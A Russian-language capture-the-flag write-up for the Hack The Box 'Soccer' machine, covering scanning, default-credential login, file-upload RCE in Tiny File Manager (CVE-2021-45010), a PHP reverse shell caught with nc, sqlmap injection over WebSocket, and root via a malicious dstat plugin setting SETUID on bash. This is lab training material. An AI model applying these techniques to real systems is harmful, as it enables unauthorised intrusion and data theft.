






Writeup машины Soccer
Ход работы
Сканирование хоста NMap
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.11.194
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-17 12:25 EDT
Nmap scan report for soccer.htb (10.10.11.194)
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
| 256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_ 256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Soccer - Index
9091/tcp open xmltec-xmlmail?
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
| HTTP/1.1 400 Bad Request
| Connection: close
| GetRequest:
| HTTP/1.1 404 Not Found
| Content-Security-Policy: default-src 'none'
| X-Content-Type-Options: nosniff
| Content-Type: text/html; charset=utf-8
| Content-Length: 139
| Date: Mon, 17 Apr 2023 16:25:26 GMT
| Connection: close
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>Error</title>
| </head>
| <body>
| <pre>Cannot GET /</pre>
| </body>
| </html>
| HTTPOptions, RTSPRequest:
| HTTP/1.1 404 Not Found
| Content-Security-Policy: default-src 'none'
| X-Content-Type-Options: nosniff
| Content-Type: text/html; charset=utf-8
| Content-Length: 143
| Date: Mon, 17 Apr 2023 16:25:26 GMT
| Connection: close
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>Error</title>
| </head>
| <body>
| <pre>Cannot OPTIONS /</pre>
| </body>
|_ </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=4/17%Time=643D72F1%P=x86_64-pc-linux-gnu%r(in
SF:formix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r
SF:\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x
SF:20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\
SF:nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Op
SF:tions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCo
SF:ntent-Length:\x20139\r\nDate:\x20Mon,\x2017\x20Apr\x202023\x2016:25:26\
SF:x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang
SF:=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</
SF:head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HT
SF:TPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Pol
SF:icy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\
SF:r\nDate:\x20Mon,\x2017\x20Apr\x202023\x2016:25:26\x20GMT\r\nConnection:
SF:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<me
SF:ta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>C
SF:annot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HT
SF:TP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-s
SF:rc\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20
SF:text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Mon,\
SF:x2017\x20Apr\x202023\x2016:25:26\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"u
SF:tf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\
SF:x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%
SF:r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnect
SF:ion:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.63 secondsНа хосте имеется:
1.Веб-сервер Nginx
2.SSH-сервер
3.Неизвестный сервис на порту 9091
Добавим ресурсную запись хоста в файл /etc/hosts:
┌──(kali㉿kali)-[~]
└─$ sudo su -c 'echo 10.10.11.194 soccer.htb >> /etc/hosts'Работа с веб-сервером
Имеется одностраничный сайт-визитка – ничего интересного даже в исходном коде страницы.
Попробуем перебрать директории с помощью OWASP Dirbuster. Используется словарь /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:
Полученный отчёт:
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Mon Apr 17 12:37:03 EDT 2023
--------------------------------
http://soccer.htb:80
--------------------------------
Directories found during testing:
Dirs found with a 200 response:
/
/tiny/
Dirs found with a 403 response:
/tiny/uploads/
--------------------------------
Files found during testing:
Files found with a 301 responce:
/tiny
/tiny/uploads
--------------------------------Перейдём в директорию http://soccer.htb/tiny/:
В данной директории находится файловый менеджер Tiny (https://github.com/prasathmani/tinyfilemanager). Согласно документации, стандартные имена и пароли:
admin/admin123
user/12345
Успешно получилось зайти с аккаунта admin:
Поищем уязвимости в базе уязвимостей MITRE (https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Tiny+File+Manager). Нас интересует RCE-уязвимость CVE-2021-45010, охватывающая множество версий файлового менеджера. Проверим версию Tiny на машине:

Версия 2.4.3 имеет данную уязвимость. Попробуем её возобновить, залив на сервер свой файл со следующим содержанием:
<?php system("whoami")?>
При открытии код действительно исполняется:

Как и ожидалось, пользователь - www-data.
Воспользуемся Reverse Shell, написанным на PHP (https://github.com/h4ckthreat/php-reverse-shell/blob/main/php-reverse-shell.php):
Загрузим файл на сервер и получим доступ к хосту через nc:
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.10.16.59] from (UNKNOWN) [10.10.11.194] 45910
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
12:02:14 up 2 min, 0 users, load average: 0.41, 0.39, 0.16
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls /home/
player
$ ls /home/player
user.txt
$ cat /home/player/user.txt
cat: /home/player/user.txt: Permission deniedВ файлах конфигурации Nginx фигурирует ещё один домен: soc-player.soccer.htb:
$ ls /etc/nginx/sites-enabled
default
soc-player.htb
$ cat /etc/nginx/sites-enabled/soc-player.htb
server {
listen 80;
listen [::]:80;
server_name soc-player.soccer.htb;
root /root/app/views;
location / {
proxy_pass http://localhost:3000;
proxy_http_version 1.1;
proxy_set_header Upgrade $http_upgrade;
proxy_set_header Connection 'upgrade';
proxy_set_header Host $host;
proxy_cache_bypass $http_upgrade;
}
}Добавим его в файл hosts:
┌──(kali㉿kali)-[~]
└─$ sudo su -c 'echo 10.10.11.194 soc-player.soccer.htb >> /etc/hosts'Зайдём на него:

Данный сайт значительно более функционален, чем тот, что был рассмотрен выше: присутствует форма авторизации и некая опция Match:

Сайт при авторизации предлагает бесплатный билет на матч…
Авторизуемся на сайте:
После авторизации пользователя встречает интерфейс, позволяющий проверить, является ли билет действительным или нет:
Введём случайную комбинацию цифр:
Посмотрим на исходный код сайта:

Скрипт подключается по WebSocket к порту 9091, принимает в поле ввода значение, и с некоторой задержкой после ввода данных пользователем, отправляет через WebSocket значение id. Попробуем проверить, уязвима ли данная система к SQL-инъекциям:
И действительно, на порту 9091 нас ожидает SQL-сервер.
SQL-инъекции с использованием SQLMap
Так как SQLMap не поддерживает работу через WebSockets, для начала необходимо запустить промежуточное ПО, которое станет прослойкой между запросами SQLMap и WebSockets (https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html, middleware.py в репозитории):
Попробуем перебрать все базы данных, которые есть в СУБД:
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://localhost:8081/id=1?" --dbs --batchНас может заинтересовать база данных soccer_db. Получим её дамп:
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://localhost:8081/id=1" -D soccer_db --dump --batch
Были получены логин и пароль:
Повышение привелегий
Попробуем по ним к серверу по ssh:
┌──(kali㉿kali)-[~]
└─$ ssh player@soccer.htbПолучен пользовательский флаг:
player@soccer:~$ cat user.txtЗальём его на сайт:
Пользователь не прописан в /etc/sudoers:
Проверим, какие программы есть с SETUID (флагом в UNIX, обозначающим, что можно запустить исполняемый файл от имени владельца исполняемого файла, например пользователя root):
Есть утилита /usr/local/bin/doas, являющаяся функциональным аналогом sudo:
Проверим файл конфигурации /usr/local/etc/doas.conf:
Пользователь имеет право запускать утилиту dstat(https://github.com/dstat-real/dstat) от имении суперпользователя:
Dstat поддерживает плагины, написанные на чистом Python. Напишем свой в каталог /usr/share/local/dstat, в который пользователь player имеет право записывать:
Плагин ставит флаг SETUID в файл /bin/bash. Это означает то, что, запустив bash, он будет исполняться от имени суперпользователя.
Был получен полный доступ к машине:
Выложим флаг:
Машина взломана!